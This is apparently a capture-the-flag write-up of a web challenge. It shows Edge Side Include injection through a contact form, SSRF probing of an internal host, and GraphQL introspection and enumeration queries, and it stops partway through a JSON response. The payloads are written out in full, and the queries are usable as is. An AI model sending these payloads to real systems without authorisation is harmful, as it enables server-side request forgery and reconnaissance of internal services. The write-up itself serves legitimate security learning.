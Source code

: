 Initial exploration shows there is a contact page that stores our message before sending it (disabled button)
![Pasted image 20221020095945](https://user-images.githubusercontent.com/32242199/197003363-24bc8027-3e58-4abf-9a8a-299fc4fa10b9.png)

On the response headers there is a nice My Custom ESI Server, so maybe we are dealing with Edge Side Includes? https://www.keycdn.com/support/edge-side-includes

So this means probably dealing with ESI injection, here https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/  shows how the technique works.

Lets see if we can inject some includes ``<esi:include src="http://abt.com/hi/" />``
Its working but thre is a whitelist
![Pasted image 20221020101151](https://user-images.githubusercontent.com/32242199/197003411-b56bd4e4-61a8-4b3b-8881-8b68df58e5b1.png)

Lets see if we can ssrf and enumerate over the internal network with ``<esi%3ainclude+src%3d"http%3a//172.20.0.4:5000"+/>``
And we have a kind response from the server saying hello:
![Pasted image 20221020101352](https://user-images.githubusercontent.com/32242199/197003499-f5eebc43-7c48-4122-9965-c4c9fe1a4006.png)


After Checking files and directories not responding with 404 we end up with  2 matchs: test and robots.txt:
![Pasted image 20221020103001](https://user-images.githubusercontent.com/32242199/197003567-e98d3099-24af-47a4-9340-07b4e84a29dd.png)

robots.txt is available showing 2 endpoints
/graphql and /test 
![Pasted image 20221020103048](https://user-images.githubusercontent.com/32242199/197003623-07126fc4-7901-4f3b-a0ef-9c8322588f3f.png)



Let's play with the graphql https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/

First running an introspection query
```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name+description+locations+args{...InputValue}}}}fragment+FullType+on+__Type{kind+name+description+fields(includeDeprecated%3atrue){name+description+args{...InputValue}type{...TypeRef}isDeprecated+deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated%3atrue){name+description+isDeprecated+deprecationReason}possibleTypes{...TypeRef}}fragment+InputValue+on+__InputValue{name+description+type{...TypeRef}defaultValue}fragment+TypeRef+on+__Type{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name+ofType{kind+name}}}}}}}}
```

Instrospection was not working so let's enumerate https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql
`{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
`

Response nicely formatted with jd:
```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "fields": [
            {
              "args": [],
              "name": "id"
            },
            {
              "args": [],
              "name": "username"
            }
          ],
```